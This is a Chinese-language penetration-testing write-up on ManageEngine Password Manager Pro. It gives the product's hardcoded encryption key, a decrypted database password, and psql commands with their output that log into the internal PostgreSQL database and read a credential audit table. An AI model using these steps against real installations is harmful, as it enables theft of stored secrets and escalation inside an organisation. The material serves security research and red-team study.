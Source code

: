 ### 1.口令破解

数据库连接的口令被加密，加解密算法位于`C:\Program Files\ManageEngine\PMP\lib\AdventNetPassTrix.jar`中的`com.adventnet.passtrix.ed.PMPEncryptDecryptImpl.class`

密钥固定保存在`com.adventnet.passtrix.db.PMPDBPasswordGenerator.class`，内容为`@dv3n7n3tP@55Tri*`

我们可以根据`PMPEncryptDecryptImpl.class`中的内容快速编写一个解密程序

解密程序可参考：https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/

**注：**

[文章](https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/)中涉及数据库口令的解密没有问题，Master Key的解密存在Bug，解决方法将在后面的文章介绍

解密获得连接口令为`Eq5XZiQpHv`


### 2.数据库连接

根据配置文件拼接数据库连接的命令

#### (1)失败的命令

```
"C:\Program Files\ManageEngine\PMP\pgsql\bin\psql" "host=localhost port=2345 dbname=PassTrix user=pmpuser password=Eq5XZiQpHv"
```

连接失败，提示：`psql: FATAL:  no pg_hba.conf entry for host "::1", user "pmpuser", database "PassTrix", SSL on`

#### (2)成功的命令

将localhost替换为127.0.0.1，连接成功，完整的命令为：

```
"C:\Program Files\ManageEngine\PMP\pgsql\bin\psql" "host=127.0.0.1 port=2345 dbname=PassTrix user=pmpuser password=Eq5XZiQpHv"
```

#### (3)一条命令实现连接数据库并执行数据库操作

格式为`psql --command="SELECT * FROM table;" postgresql://<user>:<password>@<host>:<port>/<db>`

示例命令：

```
"C:\Program Files\ManageEngine\PMP\pgsql\bin\psql"  --command="select * from DBCredentialsAudit;" postgresql://pmpuser:Eq5XZiQpHv@127.0.0.1:2345/PassTrix
```

输出如下：

```
 username |                                                                         password                                                                         |   last_modified_time
----------+----------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------
 postgres | \xc30c0409010246e50cc723070408d23b0187325463ff95c0ff5c8f9013e7a37f424b5e0d1f2c11ce97c7184e112cd81536ac90937f99838124dee88239d9444ba8aff26f1a9ff29f22f4b5 | 2022-09-01 11:11:11.111
(1 row)
```

